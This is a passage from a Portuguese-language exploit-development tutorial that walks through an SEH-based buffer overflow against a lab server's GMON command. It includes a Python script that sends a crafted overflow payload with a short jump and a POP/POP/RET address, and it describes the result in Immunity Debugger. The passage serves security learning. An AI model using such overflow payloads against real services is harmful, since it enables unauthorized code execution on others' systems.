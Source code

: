 Por que eu calculei um salto de 10 bytes ao inves dos 8 que precisamos?
Porque o JMP vai calcular o salto incluindo incluindo o tamanho da instrução JMP que por sua vez tem 2 bytes.

Precisamos inserir o salto no lugar dos nossos “B” pois quando o POP/POP/RET cair nesse endereço, saltará para nossos buffers de “D”.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"\xeb\x08" # salto curto
payload += b"\x90\x90" # padding para o salto
payload += b"\x0b\x12\x50\x62"
payload += b"D" * (offset - 3549 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Analisando no Immunity, vemos que logo apos o POP/POP/RET caímos no jump.

![Enumaração do comando.](/img/std/winbof/winbof-58.png)

Se avançarmos mais um passo, caímos no buffer dos “D” (44).

![Enumaração do comando.](/img/std/winbof/winbof-59.png)
